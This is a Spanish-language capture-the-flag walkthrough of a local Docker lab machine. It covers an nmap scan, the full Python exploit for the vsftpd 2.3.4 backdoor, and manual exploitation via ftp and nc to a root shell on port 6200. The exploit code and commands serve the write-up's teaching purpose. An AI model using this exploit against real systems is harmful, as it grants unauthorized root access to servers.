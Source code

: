 ## LEVANTAMOS EL DOCKER 

Una vez levantado el docker nos dice que la ip de la máquina victima es :
```bash
172.17.0.2
```
comprobamos si tenemos trazabilidad con la misma lanzando un ping

```bash
 ping -c 1 172.17.0.2
```
```
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.034 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.034/0.034/0.034/0.000 ms
```

Nos dice que se ha transmitido un paquete, recibido uno y perdido cero, tenemos trazabilidad

## FASE DE RECONOCIMIENTO
 Con nmap vamos a ver los puertos que tiene abiertos, los servicios que corren en los mismos y la versión para ver si hay alguna vulnerabilidad

 ```bash
 sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2 -oN PuertosYservicios
```
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
|_ftp-anon: got code 500 "OOPS: cannot change directory:/var/ftp".
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
```
Vemos un puerto 21 que corre ftp con su versión "vsftpd 2.3.4", al ver que se ha lanzado el script ftp-anom y
su respuesta  got code 500 "OOPS: cannot change directory:/var/ftp" me hace sospechar que esta versión puede ser vulnerable.


##FASE INTRUSIÓN

Hago una busqueda rápida y encuentro este exploit para esa version:
```bash
https://github.com/Hellsender01/vsftpd_2.3.4_Exploit/blob/main/exploit.py
```
```bash
#!/usr/bin/python3

from pwn import *
from sys import exit
from time import sleep

class ExploitFTP:
	def __init__(self,ip,port=21):
		self.ip = ip
		self.port = port
		self.p = log.progress("")

	def trigger_backdoor(self):
		self.p.status("Checking Version...")
		io = remote(self.ip,self.port)
		io.recvuntil(b"vsFTPd ")
		version = (io.recvuntil(b")")[:-1]).decode()
		if version != "2.3.4":
			self.p.failure("Version 2.3.4 Not Found!!!")
			exit()
		else:
			self.p.status("Triggering Backdoor....")
			io.sendline(b"USER hello:)")
			io.sendline(b"PASS hello123")
			io.close()

	def get_shell(self):
		self.p.status("Connecting To Backdoor...")
		sleep(1)
		io = remote(self.ip, 6200)
		self.p.success("Got Shell!!!")
		io.interactive()
		io.close()

if __name__ == "__main__":
	if len(sys.argv) < 2 or len(sys.argv) > 3:
		error(f"Usage: {sys.argv[0]} IP PORT(optional)")

	if len(sys.argv) == 3:
		exploit = ExploitFTP(sys.argv[1],sys.argv[2])
	else:
		exploit = ExploitFTP(sys.argv[1])

	exploit.trigger_backdoor()
	exploit.get_shell()
```

vamos a explicar un poco lo que hace

En esta parte:
```
else:
    self.p.status("Triggering Backdoor....")
    io.sendline(b"USER hello:)")
    io.sendline(b"PASS hello123")
    io.close()
```

Envia un usuario malicioso: "hello:)" y un pass: "hello123" y en teoría abre un backdoor

y en esta parte:

```
def get_shell(self):
    self.p.status("Connecting To Backdoor...")
    sleep(1)
    io = remote(self.ip, 6200)  # Se conecta al puerto 6200
    self.p.success("Got Shell!!!")
    io.interactive()
    io.close()
```
 Se conecta al puerto 6200 que es dónde ha abierto la backdoor, vamos a hacerlo de forma manual

 nos conectamos por ftp:
 ```bash
ftp 172.17.0.2
```
introducimos el user:
```bash
hello:)
```
y luego el pass
```bash
hola123
```
En teoria nos ha tenido que abrir la backdoor en el puerto 6200 y nos vamos a intentar conectar con nc
```bash
 nc 172.17.0.2 6200
```
 probamos si la conexión tiene exito:
 ```bash
id
```
```
uid=0(root) gid=0(root) groups=0(root)
```
y estamos dentro como root una máquina sencilla que nos recuerda que hay que mirar siempre las vulnerabilidades de las versions




